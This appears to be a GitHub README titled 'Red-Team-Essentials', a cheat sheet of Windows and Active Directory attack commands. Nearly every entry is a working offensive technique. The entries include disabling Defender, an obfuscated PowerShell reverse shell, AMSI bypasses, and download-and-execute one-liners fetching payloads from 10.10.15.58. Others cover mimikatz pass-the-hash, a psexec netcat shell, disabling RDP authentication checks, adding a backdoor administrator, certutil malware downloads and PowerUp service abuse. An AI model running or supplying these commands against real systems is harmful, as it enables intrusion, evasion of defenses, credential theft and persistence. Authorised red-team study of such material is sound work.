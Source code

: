 # Red-Team-Essentials

## Disable Defender 

```Powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
 
## Services and startname 

```Powershell
 Get-WmiObject win32_service | format-Table name, startname, startmode
```

## Fore-Change PAssword - generic All 

```Powershell
Set-DomainObjectOwner -Identity stgadm -OwnerIdentity hexninja
Add-DomainObjectAcl -TargetIdentity stgadm -PrincipalIdentity hexninja
$newpass = ConvertTo-SecureString -String 'Password123! -AsPlainText -Force
Set-DomainUserPassword -Identity stgadm -AccountPassword $newpass
```

## Powershell Reverse Shell one Liner (AMSI Bypass)

```Powershell
$ip='192.168.1.114';$port=1337;$client = New-Object System.Net.Sockets.TCPClient -ArgumentList $ip, $port;$s = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};$l = 'lol';Set-alias $l ([char]105 + [char]101 + [char]120);while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (lol $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sendbyte,0,$sendbyte.Length);$s.Flush()};$client.Close()
```

## AMSI Bypass (Modified Version) - Credit to Matt Graebers Reflection method 
```Powershell
$l = "MSAislolmlola";$s=($l[$true-13] + 'ystem.' + $l[$true-14] + 'anagement.' + $l[$true-12] + 'utomation.' + $l[$true-12] + [char]109 + [char]115 + [char]105 + 'Utils');$k=($l[$true-2] + [char]109 + [char]115 + [char]105 + 'InitFailed');[Ref].Assembly.GetType($s).GetField($k,'NonPublic,Static').SetValue($null,$true)
```

## Powershell Download in V4 and V5

```Powershell
 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 ```
 
 ## Ptt using mimikatz
 
```Powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:xyz.local /ntlm:ce03434e2f83b99704a631ae56e2146e /run:powershell.exe"'
```
 
 ## psexec 
 ```Powershell
./ps.exe \\\localip -h -accepteula -u username -p password cmd /c 'C:\nc.exe 192.168.50.138 4444 -e cmd.exe'
 ```
 
## Check Powershell Version 

```Powershell
 $PSVersionTable.PSVersion
```

## Download File Powershell V2 

```Powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 
```

## Download Execute Powershell One Liner 

```Powershell
powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')
```

## AMSI Bypass - Credit to Nikhil Mittal (PTAcademy)

```Powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

```Cmd
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 ```
 
 ## Remote desktop login through domain user credentials 
 
 ```sh
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 ```
 
 ## Download Execute powershell
 
 ```Cmd
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 ```
 
 ## Pivoting using sshutle when you have rsa keys 

```sh
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24
```

 ## Adding user on windows cmd line & adding it to local admin group 
 
```Cmd
net user hexninja lolbr654$@123 /ADD
net localgroup administrators hexninja /ADD
```

 ## CertUtil Download remote file
 
 ```cmd
certutil.exe -urlcache -f http://yourip/malicious.exe malicious.exe
```

## CertUtil decode base64

```cmd
certutil -decode malexecbase.b64 malexecutable.exe
```

## regsvr32 to execute malcious dll 

```cmd
regsvr32 /s /u .\exploit.dll
```

## Net1 (you read it right; it's not net) - available functions similar to net

```cmd
Net1 localgroup administrators
Net1 users
```

## The Invoke-AllChecks module runs all current checks for Windows privesc vectors (part of PowerUp) - Not OPsec Safe
```Powershell
Invoke-AllChecks
```

## Calling Invoke-ServiceAbuse (part of PowerUp) to add hexninja (replace this with your username) as admin user
```Powershell
Invoke-ServiceAbuse -Name 'VulService' -UserName hexninja
```

## Where utility to search for config files and everything 

```cmd
Examples:
    WHERE /?
    WHERE myfilename1 myfile????.*
    WHERE $windir:*.*
    WHERE /R c:\windows *.exe *.dll *.bat
    WHERE /Q ??.???
    WHERE "c:\windows;c:\windows\system32:*.dll"
    WHERE /F /T *.dll
```

